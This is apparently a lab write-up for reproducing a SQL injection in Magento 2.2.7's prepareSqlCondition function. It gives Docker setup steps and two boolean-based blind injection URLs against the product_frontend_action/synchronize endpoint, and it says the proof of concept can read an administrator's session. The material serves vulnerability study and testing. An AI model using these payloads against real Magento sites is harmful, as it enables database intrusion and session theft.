




Magento 2.2 SQL Injection¶
Magento is a professional open-source e-commerce platform developed in PHP using the Zend Framework. It is designed to be highly flexible with a modular architecture and rich functionality.
A bug exists in its prepareSqlCondition function where a second string formatting introduces an unexpected single quote, leading to an SQL injection vulnerability.
References:
- https://www.ambionics.io/blog/magento-sqli
- https://devdocs.magento.com/guides/v2.2/release-notes/ReleaseNotes2.2.8CE.html
Environment Setup¶
Execute the following command to start Magento 2.2.7:
docker compose up -d
After the server starts, visit http://your-ip:8080 to see the Magento installation page. During installation, set the database address to mysql, username and password both as root, and keep other settings as default:

Vulnerability Reproduction¶
Visit the following links:
http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-
You can see that when executing ))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- - and ))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -, the returned HTTP status codes are different:


By changing the OR condition, you can perform SQL boolean-based blind injection.
Using this POC, you can read the administrator's session:
